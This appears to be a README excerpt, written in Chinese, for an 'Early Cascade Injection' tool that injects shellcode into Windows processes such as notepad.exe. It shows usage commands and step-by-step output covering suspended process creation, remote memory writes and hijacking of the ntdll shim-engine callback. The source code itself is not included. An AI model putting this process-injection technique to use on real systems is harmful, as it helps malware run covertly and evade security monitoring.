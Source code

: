### 使用方法

```bash
cd build

# 基本用法
early_cascade.exe "C:\Windows\System32\notepad.exe" payload.bin

# 生成自定义 payload
generate_shellcode.exe my_payload.bin
early_cascade.exe "C:\Windows\System32\calc.exe" my_payload.bin
```

### 输出示例

```
===================================================================
Early Cascade Injection
===================================================================

[*] Target Process: C:\Windows\System32\notepad.exe
[*] Payload Size: 19 bytes
[+] Payload loaded: 19 bytes

[*] Step 1: Creating suspended process...
[+] Process created (PID: 12345)

[*] Step 2: Allocating remote memory...
[+] Remote memory allocated at: 0x00000123456789AB

[*] Step 3: Resolving ntdll.dll addresses...
[+] g_ShimsEnabled   : 0x00007FFB12345678
[+] g_pfnSE_DllLoaded: 0x00007FFB12345ABC

[*] Step 4: Preparing stub shellcode...
[+] Stub prepared with patched addresses

[*] Step 5: Writing stub and payload...
[+] Stub written (67 bytes)
[+] Payload written (19 bytes)

[*] Step 6: Enabling Shim Engine...
[+] g_ShimsEnabled set to TRUE

[*] Step 7: Setting DLL load callback...
[+] g_pfnSE_DllLoaded set to encoded stub address

[*] Step 8: Resuming process...
[+] Process resumed

===================================================================
[+] Early Cascade injection completed!
===================================================================
```
